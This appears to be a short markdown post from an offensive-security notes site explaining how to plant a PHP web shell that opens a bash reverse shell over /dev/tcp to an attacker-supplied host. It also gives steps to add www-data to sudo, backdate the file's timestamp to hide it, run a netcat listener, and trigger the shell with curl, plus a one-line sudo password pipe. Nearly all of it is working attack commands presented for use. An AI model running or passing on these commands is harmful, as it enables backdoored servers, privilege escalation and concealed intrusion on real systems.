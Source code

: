 ```yaml
---
layout: post
title:  "Reverse shell using PHP site"
categories: reverse_shell
summary: Create reverse shell with PHP site
---
```


{% include instructions.md %}

### {{page.title}}

Install Apache and PHP to victim’s computer and create PHP file that will open a reverse shell when the page is requested by HTTP protocol.

```shell
# apt install apache2 php libapache2-mod-php
# adduser www-data sudo
# passwd www-data

# nano /var/www/html/example.php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/" . $_GET["x"] . "/" . $_GET["y"] . " 0>&1'"); ?>

# touch /var/www/html/example.php -r /var/www/html/index.html
# service apache2 restart
```

In attacker’s computer listen 51920 port using Netcat and send HTTP request to malicious site. With HTTP request the victim’s computer will open the reverse shell
```shell
# nc -l -p 51920
# curl 'http://[victim ip address]/example.php?x=[attacker domain]&y=51920'
```

This is how you can give password using only one line example in reverse shell
```shell
$ echo 'password' | sudo -S command
```


